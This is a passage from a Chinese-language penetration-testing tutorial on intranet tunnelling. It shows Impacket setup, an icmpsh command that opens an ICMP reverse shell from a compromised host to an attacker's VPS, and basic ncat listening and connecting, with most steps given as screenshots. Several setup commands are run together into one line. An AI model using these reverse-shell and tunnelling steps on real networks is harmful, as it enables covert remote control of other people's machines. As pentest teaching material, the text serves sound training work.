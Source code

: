 ```
yum -y install epel-releaseyum -y install python-pippip install --upgrade pip -i https://pypi.tuna.tsinghua.edu.cn/simplepip install Impacket -i https://pypi.tuna.tsinghua.edu.cn/simple
```

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzAL2VBqWLT5OK0Zo2uhh7Toamj0MpI1QWk7lDFiaKmsIibLeymqmGDicic6eTXbichhE8HryTl3YkHqjrg/640?wx_fmt=png)

服务端启动：python icmpsh_m.py <vpsIP> < 受控端 IP>

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzAL2VBqWLT5OK0Zo2uhh7Too87MpCMvtTHqbiaDkljTRQKVRiavudq4biazQFbSSZTNp0hnBibvsJQu1A/640?wx_fmt=png)

客户端连接：![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzAL2VBqWLT5OK0Zo2uhh7TopIQW19WWlNgRWpjP1B7o28CRmn5ug9AIia749q1Fc7EoaBFbsMgopHg/640?wx_fmt=png)

当我们运行以后，就可以得到一个 shell：![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzAL2VBqWLT5OK0Zo2uhh7TonNMdFuutmPLrz5U8yu9t1kLeCZ6TN00gEo3MIicFTfU8PRfMdrz31gg/640?wx_fmt=png)

在官方文档中使用的是 .sh 命令，实际使用的时候会报错：![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzAL2VBqWLT5OK0Zo2uhh7ToeBH5FLMVbskGHic5Tl082EDichAsjeJq4T5iagj0FD6WzujKEMPrnj3Sw/640?wx_fmt=png)

传输层隧道技术
-------

```
传输层数据隧道包括TCP隧道、UDP隧道、和常规的端口转发。在内网渗透中，如果防火墙对某些端口进行了限制的话，在获得目标权限以后可以打开需要的端口，要是内网中存在大量的防护设备的话，TCP、UDP流量会大量拦截。
```

Netcat 使用

被称为网络安全的瑞士军刀，可以用作端口监听、端口扫描、远程文件传输、还可以实现远程 shell 等功能

目前我使用的是 Nmap 自带的 ncat，相比于原来的 nc，更加方便和简单，直接安装 nmap 就自带了 nc

官网链接：https://nmap.org/download.html

我在本机安装了 nmap 以后，就可以直接输入 ncat-v 查看信息：![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzAL2VBqWLT5OK0Zo2uhh7ToswMRCD6DgRIPoph5VzWIm2KIVZJpGZ4Z2TbMX9fexdVRTBic1ERKCkQ/640?wx_fmt=png)基本使用：

Ncat 是一个 c/s 工具，需要服务端和客户端一起使用，首先我们在服务器上监听端口：

nact -lvvp 85 表示监听 85 端口

-l：表示监听

-v：显示版本信息等

-p：监听的端口

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzAL2VBqWLT5OK0Zo2uhh7Toia5WbmVygGh1chicaZyADErDL8m0dB4XadKdqj4JiaXt5ux40tm7djUrA/640?wx_fmt=png)

客户端连接我们的服务：

ncat -v <ip>

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzAL2VBqWLT5OK0Zo2uhh7To4xCTzaWBXkFdN3icZUBvqfT7icqxkGq3WYjaBRF82uY6Wsibl9QH0pOgw/640?wx_fmt=png)

服务端收到消息:

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzAL2VBqWLT5OK0Zo2uhh7To48DSBGibkrb49B37yiaaSJXGDTZeIYVTXian9dGsaJutF1wg53pfxm3qg/640?wx_fmt=png)
